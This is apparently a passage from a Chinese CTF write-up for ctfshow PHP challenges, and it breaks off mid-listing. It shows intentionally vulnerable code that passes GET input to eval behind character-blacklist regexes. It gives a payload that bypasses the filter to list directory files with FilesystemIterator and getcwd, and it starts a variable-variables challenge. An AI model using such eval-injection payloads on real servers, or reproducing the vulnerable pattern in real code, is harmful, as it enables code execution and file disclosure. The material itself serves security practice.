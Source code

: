 ```php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?> 
```

**利用** **FilesystemIterator** **获取指定目录下的所有文件**

http://phpffff.com/fifilesystemiterator

https://www.php.net/manual/zh/class.fifilesystemiterator.php

getcwd()函数 获取当前工作目录 返回当前工作目录

payload: ?v1=FilesystemIterator&v2=getcwd

## 111

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
    

    
```